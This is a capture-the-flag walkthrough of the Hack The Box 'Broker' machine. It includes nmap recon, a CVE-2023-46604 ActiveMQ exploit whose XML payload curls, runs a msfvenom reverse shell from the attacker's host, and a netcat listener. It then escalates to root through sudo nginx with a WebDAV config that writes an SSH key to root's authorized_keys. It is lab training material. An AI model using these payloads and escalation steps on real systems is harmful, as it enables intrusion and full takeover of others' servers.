





**Start 18:15 12-08-2024**

---
```
10.10.11.243
```
## Nmap recon

### Quick scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.11.243            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 17:16 IST
Nmap scan report for 10.10.11.243
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.37 seconds
```

### Thorough scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p- 10.10.11.243
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 17:18 IST
Nmap scan report for 10.10.11.243
Host is up (0.035s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
34211/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
</ SNIP > 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.92 seconds
```

>Task 1: Which open TCP port is running the ActiveMQ service?
>A: 61616


>Task 2: What is the version of the ActiveMQ service running on the box?
>A: 5.15.15
## 80/TCP - HTTP

We are greeted with a website that needs our login credentials. I tried `admin - admin` and was put right through to the next page:



Here we find some perhaps useful links, I clicked on `manage ActiveMQ broker` and got this page:



Other than that we should check out whether there's an existing `CVE` for port `61616/ActiveMQ`.



But of course there is.

>Task 3: What is the 2023 CVE-ID for a remote code execution vulnerability in the ActiveMQ version running on Broker?
>A: CVE-2023-46604

## 61616/TCP - ActiveMQ

Now that we have a `CVE` we just have to exploit it and get a `reverse shell`.
We follow the `Usage` in the `README` from [this GitHub page](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ):

```bash
wget https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-
ActiveMQ/archive/refs/heads/main.zip
unzip main.zip
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main/

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.24 LPORT=1234 -f elf -o test.elf

python3 -m http.server 8001
nc -lvnp 1234
```

Before continuing we need to modify the `poc-linux.xml` file:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o test.elf http://10.10.14.24:8001/test.elf; chmod +x ./test.elf; ./test.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```

Here we have modified the `IP_ADDR` to our listener address. Now that all of the above is done we need to run the following commands to get our reverse shell in place:

```bash
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.24:8001/poc-linux.xml

# Here -i is the target IP, -p is the target PORT and -u is our own listener IP
```

After running the above command it should look something like this:



```bash
┌──(kali㉿kali)-[~/Downloads/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.11.243] 49666
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
whoami
activemq
```

>Task 4: What user is the ActiveMQ service running as on Broker?
>A: activemq

Now we will of course have to make the shell stable before continuing on.

```bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ 
```

That's better.

### user.txt
Straightforward stuff:

```bash
cd /home/activemq && cat user.txt
60ad77672814b3f3065a179b1b393e81
```

## Privilege Escalation
Now let's check our privileges:

```bash
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Seems like we can run `nginx` as any user, good to know.

>Task 6: What is the full path of the binary that the activemq user can run as any other user with `sudo`?
>A: /usr/sbin/nginx

The version of `nginx` seems to be `1.18.0` (by checking with `nginx -v`).
Apparently we can make a malicious configuration file with our `SSH key written under the root user's authorized_keys` which will bypass security for us. We start by writing the config file:

```bash
cat << EOF> /tmp/pwn.conf
user root;
events {
	worker_connections 1024;
}
http {
	server {
		listen 1337;
		root /;
		autoindex on;
		dav_methods PUT;
	}
}
EOF
sudo nginx -c /tmp/pwn.conf
```

We then save the above file and configure `nginx` to use it via the `-c` argument. And now we can check if it is in place:



>Task 9: Which flag is used to set a custom `nginx` configuration by specifying a file?
>A: -c

Perfect, next up we'll have to write our `public SSH key` to `/root/.ssh/authorized_keys`.

We can create the keypair with `ssh-keygen`:

```bash
activemq@broker:/tmp$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/activemq/.ssh/id_rsa): ./root
./root
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in ./root
Your public key has been saved in ./root.pub
The key fingerprint is:
SHA256:+zKe+lEuMj8p3njRtG5Z53mEbwOY1TWQrn0HZaTVues activemq@broker
The key's randomart image is:
+---[RSA 3072]----+
|             .o.=|
|             . ==|
|            . oo+|
|          .  o.o |
|        So..*  o.|
|        .+o+.oooo|
|      o ++.o o++.|
|      .**=+   oE+|
|     .+**=.    o.|
+----[SHA256]-----+
```

This file will be saved under `root.pub` as you can see mentioned in the output.

Finally we just need to use `curl` to send the `PUT` request that will write our file. We need to specify the full path `/root/.ssh/authorized_keys` and use `-d` to set the contents of the written file to our public key.

```bash
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
```

>Task 8: Which HTTP method is used to write files via the WebDAV protocol?
>A: PUT

```bash
activemq@broker:/tmp$ curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
<1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
activemq@broker:/tmp$ 
```

And now we can switch to `root` using the following command:

```bash
ssh -i root root@localhost
```

```bash
root@broker:~# whoami
whoami
root
root@broker:~# cd /root && cat root.txt
cd /root && cat root.txt
c051375bb5e700dc74a66225bdf9debf
```


---

**Finished 19:36 12-08-2024**

